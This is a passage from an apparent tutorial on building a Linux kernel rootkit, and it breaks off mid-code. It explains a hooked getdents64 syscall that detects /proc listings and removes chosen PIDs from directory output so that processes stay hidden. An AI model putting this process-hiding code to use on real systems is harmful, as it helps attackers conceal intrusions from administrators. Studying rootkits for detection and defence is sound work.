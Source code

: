 ```c
	   out:
	      kfree(kdirent);
	      return ret;
```
   Those kernel space and user space variables will mostly be used in `copy_from_user` and `copy_to_user` functions as we are going to pass arguments from _user space variable_ to _kernel space variable_ and vice-versa. Being in user space we can't read kernel space pointers/variables and vice-versa, that's the reason why `copy_from_user` and `copy_to_user` functions will be used.\
   In this scenario, `copy_from_user` is used to pass the name of the passed _directory name_ to kernel mode variable, _kdirent_ and then we will hide whatever we want to hide and lastly, we will send the output using `copy_to_user` to the user space variable, _dirent_.

   For the case of ***kzalloc***, `GFP_KERNEL` is _GFP flag_ which is used for kernel-internal allocations, [source: elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/gfp.h#L245).

   The last thing, which need explanation is the <ins>error part</ins>. If some error occurs, like sending <ins>wrong</ins> `pid` number to kernel space, we will free the allocated memory pointed by the kdirent pointer and would return the error which actually occured.

   Next part:
```c
                   // Storing the inode value of the required directory(or pid) 
                   d_inode = current->files->fdt->fd[fd]->f_path.dentry->d_inode;

                   if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
                            /*&& MINOR(d_inode->i_rdev) == 1*/)
                            proc = 1;
                    ...
```
  I paraphrased from [jm33.me](https://jm33.me/linux-rootkit-for-fun-and-profit-0x02-lkm-hide-filesprocs.html):\
  This piece of code checks if current `fd` points to proc fs, if yes, we say we are `ls`ing a `/proc` dir. `i_ino` is a inode number, representing its index number in linux vfs (virtual filesystem), `PROC_ROOT_INO` is defined as 1: [elixir.bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/proc_ns.h#L42).
```c
/*
 * We always define these enumerators
 */
enum {
	PROC_ROOT_INO		= 1,
	PROC_IPC_INIT_INO	= 0xEFFFFFFFU,
	PROC_UTS_INIT_INO	= 0xEFFFFFFEU,
	PROC_USER_INIT_INO	= 0xEFFFFFFDU,
	PROC_PID_INIT_INO	= 0xEFFFFFFCU,
	PROC_CGROUP_INIT_INO	= 0xEFFFFFFBU,
	PROC_TIME_INIT_INO	= 0xEFFFFFFAU,
    };
```
   That means, if `i_ino` of any inode is same as `PROC_ROOT_INO`, its name will be `/proc`.
   
   The final part of the getdents64 syscall:
```c
	// Changes which we will do
	while (offset < ret)
	{
	dir = (void *)kdirent + offset;

	if ((proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10))))
	{
		if (dir == kdirent)
		{
			ret -= dir->d_reclen;
			memmove(dir, (void *)dir + dir->d_reclen, ret);
			continue;
```